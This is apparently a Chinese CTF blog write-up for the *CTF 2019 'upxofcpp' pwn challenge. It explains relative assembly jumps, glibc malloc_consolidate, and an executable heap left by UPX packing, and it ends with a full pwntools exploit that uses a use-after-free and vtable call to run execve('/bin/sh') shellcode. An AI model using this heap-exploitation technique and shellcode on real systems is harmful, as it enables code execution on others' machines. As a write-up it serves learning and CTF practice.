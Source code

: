 ```yaml
---
title: Starctf2019_upxofcpp
date: 2019-05-03 22:29:58
tags:
layout: default
---
```

非常有趣构思巧妙的一题..可能我tcl都没见过所以觉得巧妙..
<!--more-->
# start
比赛的时候没有做出来...
感觉这题好多不知道的东西...
# asm(jmp .+_n)
发现汇编还可以这样写...
学到了...可以`jmp .+0x10`表示跳当前地址+0x10.. 
可能是2字节或者5字节主要看n和符号例如`+0x81`和`-0x7e`
用到时候直接ipython试试
汇编没学好...感觉这个超灵活.shellcode可以不连续了...还可以往回跳..

# malloc_consolidate
简单了解了一下..这几天准备出题比较忙之后填坑...[seebug][1]
* 何时会触发 malloc_consolidate(仅对 _int_malloc 函数而言):small bins 尚未初始化&需要 size 大于 small bins
* malloc_consolidate 如何进行合并:遍历 Fastbins 中的 chunk, 设置每个 chunk 的空闲标志位为 0, 并合并相邻的空闲 chunk, 之后把该 chunk 存放到 unsorted bin 中.Fastbins 是单向链表, 可以通过  fastbin->fd 遍历 Fastbins.

这个函数简单来说就是整理`fastbin`能合并的合并放入`unsortedbin`
还没去啃源码但是发现在`free`一个`chunk`放入`top`chunk的时候会触发.

本来感觉也没啥..后来发现是`too young too navie ...` 

我做不出来一个是不知道上面的`asm(jmp .+_n)`还有一个点是..正常的放入`fast bin`+`add`操作无法使得`fd`可控但是在链中...（想了挺久的就是没办法）

`malloc_consolidate`的好处是往`fd&bk`上填了`main_arena+88`..
而`main_arena+0x8`是`last_remain`..其最开始的8字节属于刚被`malloc`的`chunk`所以可控
而且`main_arena+0x10`是`unsorted bin[0]`其最开始的8字节可控....
这就很巧妙地和上面的`asm(jmp .+_n)`结合起来...恰好可以一起完成exp..


# UPX
题目中是简单的 `./upx -d  binary`就可以脱壳放入`ida`看清逻辑
听主办方讲题的时候说这个版本的upx `heap`可执行虽然调的时候发现但是..做题一直拿着脱壳后的`binary`忽略了`heap`可执行感觉自己差太远...

# 思路
* uaf + vtable call to run shellcode

(思路.exp很巧妙....)

# exp
```python
from pwn import *
def cmd(c):
	p.sendlineafter("ice:",str(c))
def add(idx,size,data="-1"):
	cmd(1)
	p.sendlineafter("dex:",str(idx))
	p.sendlineafter("ize:",str(size))
	p.sendlineafter("stop:",data)
def free(idx):
	cmd(2)
	p.sendlineafter("dex:",str(idx))
def show(idx):
	cmd(4)
	p.sendlineafter("dex:",str(idx))
context.log_level='debug'
p=process('./upxofcpp_raw')
context.arch='amd64'
sh=asm(shellcode)
data=u32(sh+'\x00'*2)
add(0,0x68/4)
add(1,0x68/4)
add(2,0x100/4)
free(0)
free(1)
free(2)
raw='''
xor rsi,rsi
xor rdx,rdx
xor rax,rax
mov al,0x3b
mov rdi,0x0068732f6e69622f
nop
push rdi
mov rdi,rsp
syscall
'''
#>0x80000000will crash so nop...
raw=asm(raw).ljust(0x30,'\x00')+asm('jmp .-0x30')
s=''
for x in range(0,0x38,4):
	s+=str(u32(raw[x:x+4].ljust(4,'\x00')))+"\n"
add(3,0x38/4,s)
#gdb.attach(p,'b *0x000555555555723')
free(1)
p.interactive()
```




[1]:https://paper.seebug.org/255/#5-last_remainder